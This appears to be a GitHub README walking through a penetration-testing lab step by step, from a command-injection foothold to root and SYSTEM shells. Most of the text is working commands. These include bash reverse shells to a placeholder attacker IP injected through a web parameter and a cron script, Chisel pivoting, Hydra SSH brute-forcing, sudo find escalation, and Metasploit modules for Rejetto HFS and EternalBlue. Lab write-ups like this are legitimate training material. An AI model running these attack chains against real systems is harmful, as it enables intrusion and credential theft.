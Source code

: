 #  Attack Walkthrough: Multi-Tier Penetration Testing Lab

This document provides a **step-by-step attack guide** for the multi-tier network lab setup. The goal is to demonstrate:
 Initial Access  
 Privilege Escalation  
 Network Pivoting  
 Lateral Movement  
 Post-Exploitation

---

##  Lab Topology Recap
```bash
[ Attacker Kali/Parrot/Ubuntu ] (External) ---[192.168.1.0/24]---
|
[Ubuntu Public Server] (192.168.1.10, 10.10.10.10)
|
[10.10.10.0/24]
|
[Internal Ubuntu] (10.10.10.20, 192.168.2.10)
|
[192.168.2.0/24]
|
[Windows Server 2012] (192.168.2.50) [Windows 7] (192.168.2.60)
```
---

## 1️ Initial Access: Command Injection on Public Server

### Target: **Ubuntu Public Server (192.168.1.10)**

- **Service**: Apache Web Server hosting vulnerable command injection page.
- **Exploit**:
  - Find the vulnerable parameter (e.g., `ping` feature in web form).
  - Inject commands:

    ```bash
    127.0.0.1; bash -i >& /dev/tcp/<Attacker-IP>/4444 0>&1
    ```
    
- **Listener**:
    ```bash
  nc -lvnp 4444
    ```
    ###Shell Acquired: www-data

  ----


## 2️ Privilege Escalation on Public Server (Ubuntu)
Method: Cronjob Abuse
Check /etc/crontab or /etc/cron.d/* for writable scripts.

Example:

```bash
cat /etc/crontab
* * * * * /path/to/priv_esc.sh runs every minute.
```

Inject reverse shell payload:

```bash
echo "bash -i >& /dev/tcp/<Attacker-IP>/5555 0>&1" >> /path/to/priv_esc.sh
```

Start listener:

```bash
nc -lvnp 5555
```

Shell escalates to root!

---


## 3️ Pivoting to Internal Network
Tool: Chisel for SOCKS Proxy

On Public Ubuntu (root):

```bash
./chisel server -p 8000 --reverse
```

On Attacker Machine:

```bash
./chisel client <Public-Server-IP>:8000 R:socks
```

Configure /etc/proxychains.conf:

```bash
socks5 127.0.0.1 1080
```

Test access to Internal Ubuntu:

```bash
proxychains nmap -p 22 10.10.10.20
```

----

## 4️ Internal Ubuntu Attack: SSH Brute-Force + Priv Esc
SSH Bruteforce with Hydra:

```bash
proxychains hydra -l testuser -P rockyou.txt ssh://10.10.10.20
```

Login:
```bash
proxychains ssh testuser@10.10.10.20
```

Privilege Escalation via find Misconfiguration:

```bash
sudo find . -exec /bin/sh \; -quit
```

Shell escalates to root!

-----

## 5️ Internal Enumeration: Nmap + Metasploit
From Internal Ubuntu (root):

```bash
nmap -sS 192.168.2.0/24
```

Identify targets:
```bash
Windows Server 2012 (192.168.2.50)

Windows 7 (192.168.2.60)
```

---


## 6️ Exploit Windows Server 2012: Rejetto HFS 2.3 RCE

Metasploit Module:

```bash
msfconsole
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS 192.168.2.50
set LHOST 192.168.2.10
set LPORT 4444
run
```

Gain SYSTEM shell on Windows Server 2012!

----


## 7️ Exploit Windows 7: MS17-010 (EternalBlue)

Metasploit Module:

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.2.60
set LHOST 192.168.2.10
set LPORT 5555
run
```

Gain SYSTEM shell on Windows 7!

## 8️ Final Post-Exploitation

**Extract hashes with Mimikatz.**
**Pivot further if desired.**
**Clean up lab after tests.**


---

## ⚠️ Disclaimer
This lab is for educational purposes only. Do NOT attempt these techniques on unauthorized systems.

---

##  Attack chain complete! 
Feel free to fork this repository and build your own multi-tier lab for learning and research!
